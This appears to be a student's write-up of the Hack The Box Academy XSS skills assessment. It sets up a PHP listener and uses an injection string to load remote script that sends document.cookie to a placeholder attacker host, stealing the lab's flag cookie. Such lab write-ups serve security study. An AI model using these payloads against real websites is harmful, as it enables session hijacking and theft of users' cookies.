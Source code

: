 # [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/achievement/badge/1e195a3e-ef45-11ee-b18d-bea50ffe6cb4)
## Skills Assessment
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

## Questions:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.**Answers:**

## Answers:
### First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
```mkdir /tmp/tmpserver```

```cd /tmp/tmpserver```

```nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;```

```nano index.php```

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/HTB-Academy-Cross-Site-Scripting-Skills-Assessment/images/php-code.png" >

## Let's start your server

```sudo php -S 0.0.0.0:3333```

### Now let's test the input fields on the target site:

```"><script src=http://hacker_ip:3333/myscript.js></script>```


<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/HTB-Academy-Cross-Site-Scripting-Skills-Assessment/images/inputs.png" >
<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/HTB-Academy-Cross-Site-Scripting-Skills-Assessment/images/php-server.png" >

### Great, it works!

### Let's check our cookie file.

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/HTB-Academy-Cross-Site-Scripting-Skills-Assessment/images/cookie.png" >

## Happy Hacking!

[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)


